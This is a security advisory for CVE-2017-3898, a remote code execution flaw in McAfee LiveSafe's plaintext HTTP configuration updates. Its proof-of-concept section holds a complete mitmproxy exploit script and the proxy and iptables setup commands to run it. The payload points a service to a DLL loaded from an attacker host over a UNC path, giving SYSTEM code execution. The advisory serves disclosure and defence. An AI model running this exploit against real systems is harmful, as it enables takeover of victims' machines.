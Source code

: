 ## Vulnerabilities Summary
The following advisory describes a Remote Command Execution found in McAfee McAfee LiveSafe (MLS) versions prior to 16.0.3. The vulnerability allows network attackers to modify the Windows registry value associated with the McAfee update via the HTTP backend-response.

McAfee Security Scan Plus is a free diagnostic tool that ensures you are protected from threats by actively checking your computer for up-to-date anti-virus, firewall, and web security software. It also scans for threats in any open programs.

## Credit
An independent security research company, Silent Signal, has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
The vendor has released patches to address this vulnerability.

For more information: https://service.mcafee.com/webcenter/portal/cp/home/articleview?articleId=TS102714

CVE: CVE-2017-3898

## Vulnerabilities Details
An active network attacker can achieve remote code execution in multiple McAfee products. Affected products retrieve configuration data over plaintext HTTP channel from the http://COUNTRY.mcafee.com/apps/msc/webupdates/mscconfig.asp URL (where COUNTRY is a two letter country identifier, e.g. “uk”).

The response body contains XML formatted data, similar to the following:

```
<webservice-response response-version="1.0" frequency="168"
verid="1#1316#15#0#2">
<update>
<reg key="HKLM\SOFTWARE\McAfee\MSC\Settings\InProductTransaction"
name="enable" type="REG_DWORD" value="1" obfuscate="0"/>
</update>
</webservice-response>
```

The response describes a Registry modification with the reg tags under the webservice-response/update path.

This request and subsequent update is triggered automatically, first upon the installation of the software then after the number of hours indicated by the frequency attribute of the webservice-request node (168 minutes by default).

The update is executed by the PlatformServiceFW.dll of the McSvHost.exe process by invoking the mcsvrcnt.exe program with the /update argument. The McSvHost.exe process is running with SYSTEM privileges that is inherited by mcsvrcnt.exe that implements the Registry change.

As a result active network attackers can modify the server responses to write the Registry of the target with SYSTEM privileges.

## Proof of Concept
The exploit runs as a proxy that intercepts and modifies plaintext HTTP requests and responses. Since the target software performs certificate validation for HTTPS services it’s important to let these connections pass through without modification.
In regular HTTP proxy mode this can be achieved by using the --ignore command line parameter of mitmproxy:

```
mitmproxy -s mcreggeli_inline.py --ignore '.*'
```

In case of transparent proxy mode the above parameter should not be provided:


```
mitmproxy -s mreggeli_inline.py –T
```

For transparent proxy mode the following commands configure NAT and port redirection on common Debian-based Linux distributions (eth0 is the interface visible to the target, eth1 is connected to the internet):

```
iptables -t nat -A PREROUTING -i eth0 -p tcp \
--dport 80 -j REDIRECT --to 8080
iptables -t nat -A POSTROUTING -o eth1 -j MASQUERADE
sysctl net.ipv4.ip_forward=1
```

The script looks for the “mscconfig.asp” string in the request URL. If found the XML response body is deserialized, and new reg nodes are added based on the REG variable declared at the beginning of the script. The REG variable is a list of dictionaries, each dictionary containing the following keys:

Key – The name of the Registry key to modify (e.g. “HKLM\SYSTEM\CurrentControlSet\Services\mfevtp”, backslashes should be escaped properly for Python)
Type – Type of the value to create (e.g. “REG_SZ” for strings)
Name – Name of the value to create
Value – Value to be created
The exploit also changes the frequency attribute to 1 so re-exploitation can be performed in shorter time (in 1 hour) if needed. After the new nodes are inserted, the resulting object is serialized and put in place of the original response body.

To demonstrate code execution one of the own service entries of the affected McAfee products (mfevtp – McAfee Process Validation Service) was overwritten: the ImagePath value of the HKLM\SYSTEM\CurrentControlSet\Services\mfevtp key was replaced to point the built-in rundll32.exe with an UNC path argument pointing to the attacker host (The payload (test.dll) was served with Metasploit’s smb_delivery module during testing):



The REG variable was declared like the following:


```
REG=[{"key":"HKLM\\SYSTEM\\CurrentControlSet\\Services\\mfevtp", "type":"REG_SZ","name":"ImagePath", "value":"c:\\windows\\system32\\rundll32.exe \\\\172.16.205.1\\pwn\\test.dll,0"},]
```

In this way SYSTEM level command execution is triggered after the machine is restarted, the exploit was not caught by the McAfee software.

mcreggeli_inline.py

```
#!/usr/bin/env python3
#
# HTTP proxy mode:
#  mitmproxy -s mcreggeli_inline.py --ignore '.*'
#
# Transparent proxy mode:
#   mitmproxy -s mcreggeli_inline.py -T --host
#

from mitmproxy import ctx, http
from lxml import etree

REG=[{"key":"HKLM\\SYSTEM\\CurrentControlSet\\Services\\mfevtp","type":"REG_SZ","name":"ImagePath","value":"c:\\windows\\system32\\rundll32.exe \\\\172.16.205.1\\pwn\\test.dll,0"},]

def response(flow):
    if flow.request.scheme == "http" and "mscconfig.asp" in flow.request.url:
        try:
            oxml=etree.XML(flow.response.content)
            oxml.set("frequency","1")
            update=oxml.xpath("//webservice-response/update")[0]
            for r in REG:
                reg=etree.SubElement(update,"reg")
                reg.set("key", r["key"])
                reg.set("type", r["type"])
                reg.set("obfuscate", "0")
                reg.set("name", r["name"])
                reg.set("value", r["value"])
            #ctx.log(etree.tostring(oxml))
            flow.response.content=etree.tostring(oxml)
            ctx.log("[+] [MCREGGELI] Payload sent")
        except etree.XMLSyntaxError:
            ctx.log("[-] [MCREGGELI] XML deserialization error")
```